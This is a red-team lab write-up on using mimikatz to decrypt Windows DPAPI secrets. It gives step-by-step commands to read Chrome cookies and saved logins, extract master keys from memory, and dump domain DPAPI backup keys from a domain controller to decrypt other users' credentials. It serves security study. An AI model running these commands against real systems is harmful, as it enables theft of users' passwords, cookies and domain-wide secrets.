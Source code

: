 # Reading DPAPI Encrypted Secrets with Mimikatz

This lab is based on the article posted by harmj0y [https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/). The aim is to get a bit more familiar with DPAPI and explore mimikatz capabilities beyond sekurlsa::logonpasswords.

## Overview

* DPAPI stands for Data Protection API.
* DPAPI for the sake of this lab contains 2 functions - for encrypting \(`CryptProtectData`\) and decrypting \(`CryptUnprotectData`\) data.
* Created to help developers that know little about cryptography make their programs better at securing users' data.
* Encrypts secrets like wifi passwords, vpn, IE, Chrome, RDP, etc.
* Transparent to end users - programs \(i.e Chrome use the two APIs\) with user's master key which is based on the user's actual logon password.

## Reading Chrome Cookies and Login Data

If you have compromised as system and run under a particular user's context, you can decrypt their DPAPI secrets without knowing their logon password easily with mimikatz.

In this case - let's check user's google chrome cookies:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-13-15-31-49.png)

Or any saved credentials:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-13-15-34-29.png)

## Protecting and Unprotecting Data

Using mimikatz, we can easily encrypt any data that will only be accessible to currently logged on user \(unless a bad admin comes by - more on this later\):

```csharp
dpapi::protect /data:"spotless"
```

![text &quot;spotless&quot; encrypted into a blob of bytes](../../.gitbook/assets/screenshot-from-2019-04-13-15-42-36.png)

I copy pasted the blob into a new file in HxD and saved it to spotless.bin on my desktop. To decrypt it while running under `mantvydas` user context:

```csharp
dpapi::blob /in:"c:\users\mantvydas\desktop\spotless.bin" /unprotect
```

![](../../.gitbook/assets/screenshot-from-2019-04-13-15-43-02.png)

## Decrypting Other User's Secrets

If you compromised a system and you see that there are other users on the system, you can attempt reading their secrets, but you will not be able to do so since you do not have their DPAPI master key, yet.

Let's try reading user's `spotless` chrome secrets while running as a local admin on the compromised system:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /unprotect
```
{% endcode-tabs-item %}
{% endcode-tabs %}

As mentioned, we see an error message suggesting `CryptUnprotectData` is having some issues decrypting the requested secrets:

![](../../.gitbook/assets/screenshot-from-2019-04-13-15-55-38.png)

If you escalated privilges, you can try looking for the master key in memory:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::dpapi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We see there is the master key for spotless:

![](../../.gitbook/assets/screenshot-from-2019-04-13-16-03-34.png)

Let's now use the master key found earlier to decrypt those chrome secrets:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /unprotect /masterkey:b5e313e344527c0ec4e016f419fe7457f2deaad500f68baf48b19eb0b8bc265a0669d6db2bddec7a557ee1d92bcb2f43fbf05c7aa87c7902453d5293d99ad5d6
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-13-16-05-55.png)

If the user is not logged on, but you have their password, just spawn a process with their creds and repeat the above steps to retrieve their secrets.

### Retrieving MasterKey with User's Password

Same could be achieved if user's SID, their logon password and master key's GUIDs are known:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /sid:S-1-5-21-2552734371-813931464-1050690807-1106 /password:123456 /protected
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-13-18-02-42.png)

## Extracting DPAPI Backup Keys with Domain Admin

It's possible to extract DPAPI backup keys from the Domain Controller that will enable us to decrypt any user's master key which in turn will allow us to decrypt users' secrets.

While running as a `Domain Admin`, let's dump the DPAPI backup keys:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
lsadump::backupkeys /system:dc01.offense.local /export
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-13-16-57-55.png)

Using the retrieved backup key, let's decrypt user's `spotless` master key:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /pvk:ntds_capi_0_d2685b31-402d-493b-8d12-5fe48ee26f5a.pvk
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-13-17-11-48.png)

We can now decrypt user's `spotless` chrome secrets using their decrypted master key:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /masterkey:b5e313e344527c0ec4e016f419fe7457f2deaad500f68baf48b19eb0b8bc265a0669d6db2bddec7a557ee1d92bcb2f43fbf05c7aa87c7902453d5293d99ad5d6
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-13-17-16-47.png)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/" %}

{% embed url="https://www.dsinternals.com/en/retrieving-dpapi-backup-keys-from-active-directory/" %}





